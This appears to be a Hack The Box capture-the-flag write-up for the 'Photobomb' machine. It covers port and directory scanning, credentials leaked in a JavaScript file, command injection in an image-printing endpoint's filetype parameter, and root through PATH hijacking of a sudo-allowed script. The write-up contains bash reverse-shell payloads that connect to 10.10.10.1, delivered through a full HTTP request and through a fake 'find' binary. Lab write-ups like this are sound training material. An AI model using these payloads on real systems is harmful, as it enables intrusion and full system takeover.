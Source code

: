 ```yaml
---
title: Photobomb
date: 2022-10-20 12:00:00
categories: [HTB,CTF]
tags: [weakpw,commandinjection,sudo]
---
```


## Summary

We are going to exploit Photobomb on Hackthebox.
After we inspected the Application we will find out that the Credentials for the enpoint `/printer` are leaked in a java script file.
To get a foothold we will exploit a command injection vulnerability in the image processor and escalate to root using sudo.

## Enumeration

### Rustscan

We will start by doing a quick scan using Rustscan and identify that Port 22 and 80 are open.

| Port | Service               |
| ---- | --------------------- |
| 22   | OpenSSH 8.2p1 Ubuntu  |
| 80   | nginx 1.18.0 (Ubuntu) |

`sudo rustscan -t 1500 -b 1500 --ulimit 65000 -a 10.129.224.239 -- -sV -sC -oA ./{{ip}}`
```bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

Open 10.129.224.239:22
Open 10.129.224.239:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Feroxbuster

Let's see if we can find any interesting files using feroxbuster

`feroxbuster -u http://photobomb.htb/ -t 20 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --no-recursion -k -B -x "zip,rar,txt,html,php,js,7z" -v -e -o ./ferox.txt`

```bash
200      GET        7l       27w      339c http://photobomb.htb/photobomb.js
401      GET        7l       12w      188c http://photobomb.htb/printer
200      GET       22l       95w      843c http://photobomb.htb/
```

### Website and Files

When we visit the site [http://photobomb.htb](http://photobomb.htb) we are greeted with a message that we have to click to get started. The credentials are in our welcome pack according to the site.
Since we haven't received a "welcome pack" and get asked for a username and password on [http://photobomb.htb/printer](http://photobomb.htb/printer) we inspect the application more and check `photobomb.js`

#### photobomb.js

Great we found credentials to visit the restricted section.
There are two ways we can use that info
1. Set a cookie `document.cookie="isPhotoBombTechSupport=1"`
2. Use `pH0t0:b0Mb!` as credentials

```javascript
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

#### /printer

On visiting [http://photobomb.htb/printer](http://photobomb.htb/printer) there's not much to discover except some images that we can select, setting the file type, a resolution and a buttong to download photo to print.
That's exactly what happens when we select an image and hit `Download photo to print`, after some time we are able to download a file.

## Exploitation

### Shell

Burp will help us to enumerate that behavior and request we are sending to the application further.
We will discover that the Application takes three parameters and we're sending a POST request to the image processor backend.

**POST Request**

That's how the POST Request looks like when we just hit `Download photo to print`.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=finn-whelen-DTfhsDIWNSg-unsplash.jpg&filetype=png&dimensions=600x400
```

**Command Injection**

After playing around we discover that the `filetype` paramter seems to behave akward when we add `;id` for example. 
Instead of generating an Image we get the message `Failed to generate a copy of finn-whelen-DTfhsDIWNSg-unsplash.jpg`
Let's get a shell by executing a payload and don't forget to URL encode it.

```http
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 222
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=finn-whelen-DTfhsDIWNSg-unsplash.jpg&dimensions=600x400&filetype=png;bash -c 'bash -i >& /dev/tcp/10.10.10.1/80 0>&1'
```

## Escalation

### Local Enumeration

During enumeration there was a possible privilege escalation vector discovered.
We are able to run `/opt/cleanup.sh` as root and have privileges to set an enviroment variable.

**Sudo Privileges**

```bash
(remote) wizard@photobomb:/home/wizard$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

**cleanup.sh**

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

### Privilege Escalation

Checking `/opt/cleanup.sh` reveals that `find` is called without an absolute path to the binary and relies on the `PATH` environment variable.
Let's create a new folder called `bin` in our home directory, a binary called `find` in our new folder containing a reverse shell payload

**find**

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.1/81 0>&1
```

Make it executable and start `cleanup.sh`

`sudo PATH=/home/wizard/bin:$PATH /opt/cleanup.sh`

We will now receive a connection back on our listener and have a ROOT Shell